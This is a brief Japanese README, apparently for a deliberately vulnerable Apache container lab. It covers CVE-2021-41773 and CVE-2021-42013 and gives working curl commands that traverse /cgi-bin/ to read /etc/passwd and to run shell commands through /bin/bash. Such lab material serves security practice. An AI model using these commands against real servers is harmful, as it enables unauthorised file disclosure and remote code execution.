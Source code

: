 # 脆弱性を持ったApacheコンテナ


## CVE-2021-41773
任意のファイルの中身が確認できる脆弱性。  


```:攻撃コマンド
curl http://IPアドレス:8081/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

## CVE-2021-42013
任意のコードが実行できる脆弱性。

攻撃コマンド
```
curl 'http://IPアドレス:8082/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; ls -la'
```
